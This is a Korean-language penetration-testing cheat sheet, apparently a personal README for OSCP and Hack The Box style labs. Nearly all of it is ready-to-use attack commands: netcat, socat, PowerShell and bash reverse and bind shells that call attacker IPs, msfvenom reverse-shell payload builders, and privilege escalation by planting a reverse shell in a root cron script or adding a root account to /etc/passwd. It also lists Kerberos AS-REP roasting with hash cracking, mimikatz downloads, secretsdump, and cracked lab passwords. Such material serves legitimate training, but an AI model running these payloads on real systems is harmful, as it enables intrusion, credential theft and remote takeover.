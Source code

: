 # penetration_test

<details><summary>default</summary>
<p>

```ruby
  
```

</p>

</details>

<!-- ################################################################################################################################################# -->

<details><summary>enumeration</summary>
<p>


```ruby
포트(port scan)
ports=$(nmap -p- --min-rate=1000 -T4 10.11.1.231 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) 
nmap -p$ports -sC -sV 10.11.1.231
	
kali@kali:~$ for ip in $(seq  1 255); do nmap -p80 -sS 192.168.133.$ip; done

삼바(smb) enumeration
kali@kali:~$ nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254
kali@kali:~$ ls -1 /usr/share/nmap/scripts/smb* 
kali@kali:~$ nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
kali@kali:~$ smbclient -L \\\\10.10.10.175 -N	
kali@kali:~$ smbclient -U '%' -L //10.10.10.100 && smbclient -U 'guest%' -L //
kali@kali:~$ smbmap -u "" -p "" -P 445 -H 10.10.10.100 && smbmap -u "guest" -p "" -P 445 -H 10.10.10.100

kali@kali:~$ smbclient //10.10.10.100/Replication
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
	
웹(web enum)
dirbuster
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.175/FUZZ	
gobuster dir -u http://10.11.1.237/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	
dirb http://10.11.1.237
	
nfs
kali@kali:~$ ls -1 /usr/share/nmap/scripts/nfs*
kali@kali:~$ nmap -p 111 --script nfs* 10.11.1.72	
	
enum4linux

robots.txt, sitemap.xml, 소스코드, 헤더, 관리자 페이지 확인 등

nikto
	
```

</p>

</details>

<!-- ################################################################################################################################################# -->


<details><summary>파일 다운로드</summary>
<p>

```ruby
  파일 다운로드
  wget -O report_wget.pdf https://www.offensive-security.com/reports/penetration-testing-sample-report-2013.pdf
  curl -o report.pdf https://www.offensive-security.com/reports/penetration-testing-sample-report-2013.pdf
  axel -a -n 20 -o report_axel.pdf https://www.offensive-security.com/reports/penetration-testing-sample-report-2013.pdf

```

</p>

</details>
<!-- ################################################################################################################################################# -->

<details><summary>넷캣 쉘</summary>
<p>
<table>
	<th>이름</th>
	<th>설명</th>
	<th>예시</th>
	<tr>
	    <td>바인드 쉘 (nc)</td>
	    <td>bind shell : 공격자가 타겟 서버에 접속<br>
			피해 서버에서 nc -nlvp 5555 -e /bin/bash 가 실행중일 때 (리스닝 상태)<br>
			공격 서버에서 nc -nv 피해서버IP 5555
	    </td>
	    <td>cmd.php?cmd=nc -nlvp 5555 -e /bin/bash    (웹쉘로 타겟서버에서 실행)<br>
			kali # nc -nv 타겟서버ip  (공격자 커맨드에서 실행)<br>
	   </td>
	</tr>
	<tr>
	    <td>리버스 쉘 (nc)</td>
	    <td>reverse shell : 타겟 서버가 공격자에 접속<br>
			공격 서버에서 nc -nlvp 5555 로 리스닝<br>
			피해 서버에서 공격 서버에 연결 
	    </td>
	    <td>cmd.php?cmd=nc -nv 공격자서버ip 5555  -e /bin/bash (웹쉘로 타겟서버에서 실행)<br>
			kali # nc -nlvp 5555   (공격자 커맨드에서 실행)<br>
	    </td>
	</tr>
	<tr>
	    <td>파일전송 (nc)
	    </td>
	    <td>nc로 파일 전송 :<br>
			텍스트 전송: <br>
			받는 서버 : <br>
			nc -nvlp 60000 > flag_recive.txt<br>
<br>
			보내는 서버 :<br>
			cat flag.txt | nc -nv 받는서버ip 60000<br>
			---------------------------------------<br>
			실행파일 (tar로 압축해서 보냄) 전송:<br>
			받는 서버<br>
			nc -nvlp 60000 | tar -x <br>
<br>
			보내는 서버<br>
			tar -c flagfile | nc -nv 받는서버ip 60000
		</td>
		<td>-</td>
	</tr>
</table>
</p>

</details>
<!-- ################################################################################################################################################# -->



<details><summary> socat 쉘</summary>
<p>
<table>
	<th>이름</th>
	<th>설명</th>
	<th>예시</th>
	<tr>
	    <td>바인드 쉘 (socat)</td>
	    <td>bind shell : 공격자가 타겟 서버에 접속<br>
			socat encrypt 바인드 쉘 : <br>
			받는 서버 :<br>
			openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt            :key랑 crt 생성<br>
			cat bind_shell.key bind_shell.crt > bind_shell.pem                                               <br>                                                             :key랑 crt를 pem에 저장
			이용해서 ssl pem 파일 생성 <br>
<br>
			리스닝<br>
			sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash<br>
<br>
			공격 서버 :<br>
			socat - OPENSSL:피해IP:443,verify=0<br>
	    </td>
	    <td>
		-
	   </td>
	</tr>
	<tr>
	    <td>리버스 쉘 (socat)</td>
	    <td>socat 리버스쉘 :<br>
			공격 서버 : socat -d -d TCP4-LISTEN:5555 STDOUT <br>
			피해 서버 : socat TCP4:공격자IP:5555 EXEC:/bin/bash <br>
	    </td>
	    <td>
		-
	    </td>
	</tr>
	<tr>
	    <td>파일전송 (socat)
	    </td>
	    <td>socat 파일 전송 :<br>
		보내는 서버 : socat TCP-LISTEN:포트,fork file:pass.txt<br>
		받는 서버 : socat TCP4:보내는서버ip:포트 file:저장할파일명.txt,create<br>
		</td>
		<td>-</td>
	</tr>
</table>
</p>

</details>
<!-- ################################################################################################################################################# -->


<details><summary>파워쉘</summary>
<p>
<table>
	<th>이름</th>
	<th>설명</th>
	<th>예시</th>
	<tr>
	    <td>바인드 쉘 (powershell)</td>
	    <td>파우쉘 바인드쉘
윈도우 서버 :<br>
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',445);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()" <br>
<br>
칼리 서버 :<br> 
nc -nv 윈도우서버IP 바인드포트
	    </td>
	    <td>
		-
	   </td>
	</tr>
	<tr>
	    <td>리버스 쉘 (powershell)</td>
	    <td>파워쉘 리버스쉘<br>
칼리 서버 <br>
nc -nvlp 443<br>
<br>
윈도우 서버<br>
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.220.128',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
	    </td>
	    <td>
		-
	    </td>
	</tr>
	<tr>
	    <td>파일전송 (powershell)
	    </td>
	    <td>파워쉘 파일 다운로드<br>
		powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.220.128/wget.exe','C:\Users\mc_vm\get.exe')"

	    </td>
	    <td>-</td>
	</tr>
</table>
</p>

</details>
<!-- ################################################################################################################################################# -->


<details><summary>파워캣</summary>
<p>
파워캣 설치 : 칼리에 파워캣 설치
		apt-get install powercat
		설치 경로 : usr/share/windows-resources/powercat.
<table>
	<th>이름</th>
	<th>설명</th>
	<th>예시</th>
	<tr>
	    <td>바인드 쉘 (powercat)</td>
	    <td>파워캣 바인드쉘 :<br>
powercat -l -p 443 -e cmd.exe<br>
<br>
nc 윈도우ip 443
	    </td>
	    <td>
		-
	   </td>
	</tr>
	<tr>
	    <td>리버스 쉘 (powercat)</td>
	    <td>파워캣 리버스쉘 :<br>
sudo nc -lvp 443<br>
<br>
powercat -c 칼리ip -p 443 -e cmd.exe<br>
</td>
	    <td>
		-
	    </td>
	</tr>
	<tr>
	    <td>파일전송 (powercat)
	    </td>
	    <td>파워캣으로 파일 받기 (윈도우 -> 칼리)<br>
kali@kali:~# nc -lnvp 443 > file_from_window.txt (file_from_window.txt로 저장)<br>
<br>
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\send_file_to_kali.txt (send_file_to_kali.txt파일 전송)<br>
		</td>
		<td>-</td>
	</tr>
</table>
</p>

</details>



<!-- ################################################################################################################################################# -->
<details><summary>파이썬, 배쉬 쉘 얻기</summary>
<p>

```ruby
   파이썬 쉘
   python -c 'import pty; pty.spawn("/bin/bash")'
   python3 -c 'import pty; pty.spawn("/bin/bash")'

   배시 쉘
   /bin/bash -i &> /dev/tcp/10.10.10.10/7777 0>&1
   <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.221:4444 0>&1"); ?>  : lfi
```

</p>

</details>
<!-- ################################################################################################################################################# -->

<details><summary>MSFVenom Reverse Shell Cheatsheet</summary>
<p>

```ruby
Non-Meterpreter Binaries
Staged Payloads for Windows

x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
Stageless Payloads for Windows

x86	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
Staged Payloads for Linux

x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
Stageless Payloads for Linux

x86	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

---------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------------------------------
	
Non-Meterpreter Web Payloads
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

---------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------------------------------

Meterpreter Binaries
Staged Payloads for Windows

x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
Stageless Payloads for Windows

x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
Staged Payloads for Linux

x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
Stageless Payloads for Linux

x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

---------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------------------------------
	
Meterpreter Web Payloads
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
	
```

</p>

</details>


<!-- ################################################################################################################################################# -->

<details><summary>권한 상승 리눅스</summary>
<p>
	
```ruby
 
---------------------------------스케줄링(crontab, at 등)

루트가 작성한 파일 퍼미션이 잘못 설정되어 있을 경우
ex)
/var/archive/
-rwxr-xr-x  1 root root    312 Jan  5 05:59 archive.sh

kali# cat archive.sh

#!/bin/bash
echo "test"

밑에와 같이 수정

#!/bin/bash
bash -i >$ /dev/tcp/공격자ip(리스너)/4545 0>&1

참조 : https://www.youtube.com/watch?v=ewWBJCd6hRY

-----------------------------------------------------------

***/etc/passwd 


student$ ls -al /etc/passwd                                                                                                                                                            
-rw-rw-rw- 1 root root 1431 Jan  6 22:25 /etc/passwd
일반 사용자 쓰기 권한 있을 경우


student$ openssl passwd -1 -salt stef test123                                                                             
패스워드 해시 결과 : $1$stef$ZYhbekI8UymZof5o8aY3A/


nano /etc/passwd로 
hack 유저 추가 후 저장

student:x:1000:1000::/home/student:/bin/bash
hack:$1$stef$ZYhbekI8UymZof5o8aY3A/:0:0:root:/root:/bin/bash


openssl passwd -1 -salt stef test123 
python3 -c 'import crypt; print(crypt.crypt(['test123'], "$6$[stef]"))'

패스워드 해시 참조 문서
https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/


python3 -m http.server -bind 127.0.0.1 9000


쓰기 가능한 디렉터리 목록 
student@debian:~$ find / -writable -type d 2>/dev/null



suid 붙은 파일들 찾기
student@debian:~$ find / -perm -u=s -type f 2>/dev/null

참조문서
https://gtfobins.github.io/
	
```

</p>

</details>
<!-- ################################################################################################################################################# -->



<details><summary>액티브 디렉터리</summary>
<p>

```ruby
 
-------------------------------------------------------------------------
ad


try hack me : https://systemweakness.com/active-directory-attack-cheat-sheet-ea9e9744028d
hack the box : Sauna, Active, monteverde, sizzle, multimaster

***************** lab name : SAUNA
***********************************************************************************************************************

ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.175 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.175

apt-get install build-essential python3-dev python2.7-dev libldap2-dev libsasl2-dev slapd ldap-utils tox  lcov valgrind

python3 windapsearch.py -d egotistical-bank.local --dc-ip 10.10.10.175 -U
또는 ./windapsearch.py -d egotistical-bank.local --dc-ip 10.10.10.175 -U 

python3 GetADUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -debug

smbclient -L \\\\10.10.10.175 -N

ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.175/FUZZ

./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt


while read p; do python3 GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < unames.txt

for ip in $(cat unames.txt); do python3 GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < unames.txt

hashcat --help | grep Kerberos

hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force

evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'

-------------------------------------------------------------------------
------------------------------------------------------------------------- get user account and signin

powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2:8000/winPEASx64.exe','C:\Users\Fsmith\Documents\winPEASx64.exe')
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2:8000/mimikatz64.exe .exe','C:\Users\Fsmith\Documents\mimikatz64.exe')

bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c All


secretsdump.py egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator


/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////




***************** lab name : Active
***********************************************************************************************************************

ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.100

nmap --script safe -p445 10.10.10.100

smbmap -u "" -p "" -P 445 -H 10.10.10.100 && smbmap -u "guest" -p "" -P 445 -H 10.10.10.100
smbclient -U '%' -L //10.10.10.100 && smbclient -U 'guest%' -L //

nmap -n -sV --script "ldap* and not brute" -p 389 10.10.10.100

smbclient //10.10.10.100/Replication

─# smbclient //10.10.10.100/Replication                  
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> mget *
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (8.5 KiloBytes/sec) (average 2.1 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (1.6 KiloBytes/sec) (average 2.0 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (3.3 KiloBytes/sec) (average 2.2 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (11.0 KiloBytes/sec) (average 3.5 KiloBytes/sec)
smb: \> 



──(root㉿kali)-[/home/kali/21.Active_directory/active/p]
└─# smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
[+] Starting search for files matching 'Groups.xml' on share Replication.

sudo apt-get install cifs-utils 

```

</p>

</details>
<!-- ################################################################################################################################################# -->


<details><summary>포트 포워딩</summary>
<p>

```ruby

포트포워딩
ssh -f -L 2221:192.168.40.52:1234 kali@192.168.119.140 sleep 10; nc 127.0.0.1 1234


ssh -N -R 192.168.119.164:2221:127.0.0.1:5555 kali@192.168.119.164
ssh -N -R 2221:127.0.0.1:5555 kali@192.168.119.164

ssh -L9999:192.168.119.164:4444 root@192.168.119.164 -N -f
nc -nvp 4444 -e /bin/bash & ss -lt


ssh -R4444:127.0.0.1:5555 kali@192.168.119.164 -fN



ssh -R 5555:127.0.0.1:4444 kali@92.168.119.164


ssh -R 4444:127.0.0.1:5555 kali@192.168.119.164




ssh -N -R 2221:127.0.0.1:5555 kali@192.168.119.164
nc -lp 5555 -s 127.0.0.1 -e /bin/bash 


nc -nlvp 5555 -e /bin/bash 


nc -lp 5555 -s 127.0.0.1 -e /bin/bash

 ssh -N -R 127.0.0.1:5555:192.168.119.164:2221 kali@192.168.119.164
 
 
 ssh -R 192.168.119.164:2221:127.0.0.1:5555 kali@92.168.119.164
 kali 2221 포트를 이용해서 127로 접속
 
 127.0.0.1:5555 -> 192.168.164.33 2221  -----> '
 
 ssh -N -R 2221:127.0.0.1:5555 student@92.168.164.52
 
 ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4


find / -name test* | grep -E '[A-Za-z0-9+/]{4}*([A-Za-z0-9+/]{4}|[A-Za-z0-9+/]{3}=|[A-Za-z0-9+/]{2}==)'
find ./ -type f -exec  grep -H '찾을 내용' {} \;     :현재 파일 내에 특정 단어가 들어간 파일 및 내용 찾기


```

</p>

<p>
  hihi
</p>
</details>
